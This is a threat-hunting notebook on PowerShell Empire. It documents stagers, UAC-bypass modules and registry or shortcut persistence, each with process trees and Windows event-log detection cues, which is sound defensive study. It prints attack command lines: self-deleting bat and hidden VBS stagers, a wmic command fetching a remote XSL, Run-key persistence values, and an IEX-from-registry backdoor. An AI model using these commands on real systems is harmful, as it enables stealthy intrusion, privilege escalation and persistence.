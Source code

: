 # Hunting Notes - PowerShell Empire

> Paolo Coba | 04/03/2021

-------------------------------------------

## Resources
* [https://www.securitynik.com/2022/02/beginning-powershell-empire-attack-in.html](https://www.securitynik.com/2022/02/beginning-powershell-empire-attack-in.html)
* [https://www.sans.org/white-papers/38315/](https://www.sans.org/white-papers/38315/)
* [https://enigma0x3.net/2016/03/15/phishing-with-empire/](https://enigma0x3.net/2016/03/15/phishing-with-empire/)
* [https://www.hackingarticles.in/multiple-ways-to-exploiting-windows-pc-using-powershell-empire/](https://www.hackingarticles.in/multiple-ways-to-exploiting-windows-pc-using-powershell-empire/)
* [https://support.microsoft.com/en-us/topic/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages-a98d960a-7392-e6fe-d90a-3f4e0cb543e5](https://support.microsoft.com/en-us/topic/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages-a98d960a-7392-e6fe-d90a-3f4e0cb543e5)

## Overview

## Characteristics

## Experiments

### Stagers

* `windows/launcher_bat`: creates bat file with base64 encoded PowerShell. 
    * Process tree on target:
    ```cmd
    cmd.exe (C:\Windows\system32\cmd.exe /c "<launcher.bat>")-> powershell.exe ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -nol -nop -ep bypass "[IO.File]::ReadAllText('C:\Users\IEUser\launcher.bat')|iex")-> powershell.exe (powershell -noP -sta -w 1 -enc <base64>)
    ```
    * Generated stager code (not obfuscated)
    ```bat
    # 2>NUL & @CLS & PUSHD "%~dp0" & "%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -nol -nop -ep bypass "[IO.File]::ReadAllText('%~f0')|iex" & DEL "%~f0" & POPD /B
    powershell -noP -sta -w 1 -enc <BASE64>
    ```
    * Detection
        * `Windows Powershell.evtx`:
            * Event ID 400 - Engine state is changed from None to Available: HostApplication will contain base64 encoded PowerShell
            * Event ID 600 - Provider Lifecycle:
                * Will contain powershell IEX that executes content in bat script.
                * Will contain stager powershell base64 encoded code.
        * `Microsoft-Windows-PowerShell%4Operational.evtx`
            * Event ID 4100 - Executing Pipeline: HostApplication contains base64 encoded PowerShell
            * Event ID 4104 - Execute a Remote Command: Contains full PowerShell stager code.
* `windows/launcher_vbs`:
    * Process tree on target: `wscript.exe` creates and starts standalone `powershell.exe` process running stager code.
    ```cmd
    powershell.exe ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc <base64>) -> conhost.exe
    ```
    * Generated stager code (not obfuscated)
    ```vbs
    Dim objShell
    Set objShell = WScript.CreateObject("WScript.Shell")
    command = "powershell -noP -sta -w 1 -enc  <base64>"
    objShell.Run command,0
    Set objShell = Nothing
    ```
    * Detection:
        * Same as above
* `windows/launcher_sct`: Uses with `regsvr32.exe` to register OLE object.
    * MITRE: [https://attack.mitre.org/techniques/T1218/010/](https://attack.mitre.org/techniques/T1218/010/)
    * [https://support.microsoft.com/en-us/topic/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages-a98d960a-7392-e6fe-d90a-3f4e0cb543e5](https://support.microsoft.com/en-us/topic/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages-a98d960a-7392-e6fe-d90a-3f4e0cb543e5)
    * Process Tree: `powershell.exe` containing agent runs as standalone process.
    ```cmd
    regsvr32.exe -> powershell.exe
    ```
    * Detection:
        * Security EVTX:
            * Event ID 4688 - Process Creation: look for `powershell.exe` with parent as `regsvr32.exe`
        * PowerShell Event Logs same as before
        * Check launch arguments of `regsvr32.exe`
* `windows/wmic`: Uses `wmic` to exploit the use of `XSL` files
    * Launch
    ```cmd
    wmic os get /format:"<server>/<xsl file>"
    ```
    * Process Tree: `powershell.exe` containing agent runs as a standalone process.
    ```cmd
    wmic.exe -> powershell.exe
    ```
    * Detection:
        * Security EVTX:
            * Event ID 4688 - Process Creation: `powershell.exe` with parent `wmic.exe`
            * Event ID 4688 - Process Creation: `wmic.exe`, check launch arguments which will contain xsl file.
        * PowerShell Event Logs
        * 

### Privilege Escalation
* `powershell/privesc/bypassuac_env`: Bypasses UAC by modifying environmental variables in Registry.
    * Resource:
        * [https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html](https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html)
    * Process Tree
    ```cmd
    svchost.exe (No arguments) -> powershell.exe (C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoP -NonI -w Hidden -c $x=$((gp HKCU:Software\Microsoft\Windows Update).Update); powershell -NoP -NonI -w Hidden -enc $x; Start-Sleep -Seconds 1\system32\cleanmgr.exe /autoclean /d C:) -> powershell.exe (powershell.exe -NoP -NonI -w Hidden -enc <base64>)
    ```
    * Exploits task `SilentCleanup`: 
        * Modifies `%windir%` environmental variable (`HKCU\Environment\windir`) to contain powershell code for execution.
        * Modifies `HKCU\Software\Microsoft\Windows\Update` to contain base64 stager code.
        * Runs with elevated privileges
* `powershell/privesc/bypassuac_eventvwr`:
    * [https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/](https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/)
* `powershell/privesc/bypassuac_fodhelper_progids`
    * [https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
    * Writes Registry keys used by `fodhelper.exe`
        * `HKCU\Software\Classes\ms-settings\CurVer\(Default)`: cotains pointer to registry key with malicious code.
        * `HKCU\Software\Classes\.pwn\Shell\Open\command\(Default)`: contains command to execute
    * Process Tree:
    ```cmd
    powershell.exe (existing agent) -> fodhelper.exe -> powershell.exe (new agent)
    ```
    * Detection:
        * Security EVTX:
            * Event ID 4688 - Process Creation: creation of `fodhelper.exe` process with no arguments from `powershell.exe`
            * Event ID 4688 - Process Creation: creation of `powershell.exe` process from `fodhelper.exe`
            * Event ID 4688 - Process Creation: termination of `fodhelper.exe`
        * PowerShell Event logs same as before
* `powershell/privesc/bypassuac_wscript`
    * [https://rstforums.com/forum/topic/97349-uac-bypass-vulnerability-in-windows-script-host/](https://rstforums.com/forum/topic/97349-uac-bypass-vulnerability-in-windows-script-host/)
* `powershell/privesc/bypassuac_tokenmanipulation`: TBD
* `powershell/privesc/bypassuac_sdctlbypass`:
    * [https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/](https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/)

### Persistence
* `powershell/persistence/userland/registry`: Establishes persistence in Registry. Modified Keys
    * `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Updater`: sets value as `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKCU:Software\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x`
    * `HKCU\Software\Microsoft\Windows\CurrentVersion\Debug`: sets base64 encoded stager logic. This is called by the script in the Updater key.
* `powershell/persistence/userland/backdoor_lnk`: Establishes persistence through specified `lnk` file.
    * Specified `lnk`: Detection through `LECmd` (Zimmerman tools). Executes base64 content that starts process with PowerShell code from the specified registry key
    ```powershell
    powershell  -w hidden -nop -enc <base64>
    
    Base64 decodes to
    [System.Diagnostics.Process]::Start("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe");IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp <registry key>).debug)))
    ```
    * Backdoor code contained in the specified registry key. Default is `HKCU\Software\Microsoft\Windows\debug
